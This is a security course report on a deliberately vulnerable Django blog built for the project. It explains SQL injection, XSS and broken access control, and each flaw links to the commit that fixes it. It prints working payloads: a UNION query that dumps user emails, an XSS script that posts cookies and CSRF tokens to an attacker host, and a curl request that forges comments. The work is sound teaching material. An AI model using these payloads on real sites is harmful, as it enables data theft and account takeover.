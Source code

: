 #+author: Juho Hautala
#+title: Project I Report - Security flaws from OWASP Top Ten list

* Security flaws from OWASP Top Ten 2017

This essay uses the OWASP Top Ten 2017 list: https://owasp.org/www-project-top-ten/2017.

LINK: https://github.com/vastus/cybsec21-project1

FLAW 1:
https://github.com/vastus/cybsec21-project1/blob/609cd90364be41e2b3df20bd72335be239bb46ae/project1/blog/views.py#L29

** Flaw 1: A1:2017-Injection

The first flaw shows a SQL injection vulnerability.

The app in question is a blog. The different roles of users of the blog can be an admin, author, user, or guest. Guest is the only unauthenticated role meaning that guests do not or are not signed in to the web application.

For this flaw it doesn't matter if the user is authenticated or not. The injection flaw is vulnerable through the search functionality of the application. The search functionality can be accessed from any page of the app.

The flaw can be triggered for example in the following way:

1. go to the home page of the app
2. paste the following as the search query

```
%' and false union select 1337,email,1337,1337 from blog_user --
```

This will query the user table for the application and expose all the email addresses for each registered account. Changing the column name to any other column in the user table will expose its values. The SQL injection described in this flaw doesn't allow the execution of multiple statements but this vulnerability is a serious weakness since it can be used to expose all the data stored in the database.

See https://owasp.org/Top10/A03_2021-Injection/ for more
https://owasp.org/www-project-top-ten/2017/A1_2017-Injection.html

** Flaw 1: Fixing the SQL injection

Instead of using raw SQL to perform the search one should use an ORM or escape the input used for the searching. Since this app is made with Django, the ORM should be used.

The fix can be seen in the following commit: https://github.com/vastus/cybsec21-project1/blob/7355ba0c02171a1833733d8dfd6e1706be61d637/project1/blog/views.py#L25.

FLAW 2:
https://github.com/vastus/cybsec21-project1/blob/0d6dd7cf68128481a71d8fe1c617648ea5e75d03/project1/blog/templates/blog/posts/show.html#L68

** Flaw 2: A7:2017-Cross-Site Scripting (XSS)

The blog allows registered users to comment on posts. The comment form includes a hidden input field that's named `current_user_id` which the application uses to figure out who's the commenter. An attacker could alter the value of this field to impose commenting as someone else.

It's possible to inject <script> tags to the comment since the developers of the blog wanted to allow users to input their own markdown or styles to the comments but without further inspection this of course allows XSS attacks as well.

An attack might occur when after the attacker has registered and logged in to the site and they visit a post and comment on the post with the following comment body:

```
Interesting read...

<script>
const csrfmiddlewaretoken = document.querySelector('input[name=csrfmiddlewaretoken]').value;
const data = {cookie: document.cookie, csrfmiddlewaretoken};
fetch('https://h4x.or:1337/csrf-tokens', {method: 'POST', body: JSON.stringify({data})});
</script>
```

Given that the attacker has set up the server where the POST request is sending the CSRF token they can then use the token and another user ID to comment on posts as someone else.

An example request to exploit the vulnerability:

```
curl 'http://blog/posts/1/comments' \
     -X POST -H 'Content-Type: application/x-www-form-urlencoded' \
     -H 'Cookie: csrftoken=$CSRF_TOKEN_FROM_COOKIE_PAYLOAD' \
     --data-raw 'csrfmiddlewaretoken=$CSRF_MIDDLEWARE_TOKEN_FROM_PAYLOAD&comment_user_id=1&comment_body=holup'
```

** Flaw 2: Fixing the XSS weakness

First of all the application should figure out the current user from the session instead of getting it from the hidden input field. All user input should be considered unsafe. The way that the comment body is rendered needs to be changed from safe to unsafe, so that the browser doesn't interpret the HTML tags (e.g. <script>).

The fix can be seen in the following commit: https://github.com/vastus/cybsec21-project1/commit/c2e0b18a1357461d6224466c1196e1a4ad9e8438

FLAW 3:
https://github.com/vastus/cybsec21-project1/blob/4db57645b870df1ff1c2bcc6cf4ca8f53f6668f2/project1/blog/views.py#L87

** Flaw 3: A5:2017-Broken Access Control

It's easy to forget to correctly control the access within different parts of an application. The blog allows users to profiles (/profile/<user_id>). If the current user is viewing their own profile and they're signed in they can change their email address if they so wish. The developers of the blog coded the feature to fetch the updated user record by the user ID that's provided in the URL. This of course is an obvious case of broken access control where any logged in user may change other users information. An attacker might change admin's email address for example and request a new password which would then allow them to log in as the admin user.

** Flaw 3: Fixing the broken access control

To fix this vulnerability we should only allow changes to the current user's profile and not to anyone else's. Instead of updating the user record (identified by the user ID from the URL) we should check that the profile that is updated is only in the scope of the currently signed in user that's identified from the session.

The fix can be seen in the following commit: https://github.com/vastus/cybsec21-project1/commit/f0c639aeca1988f694f0cfa98fa60d1923a4173e
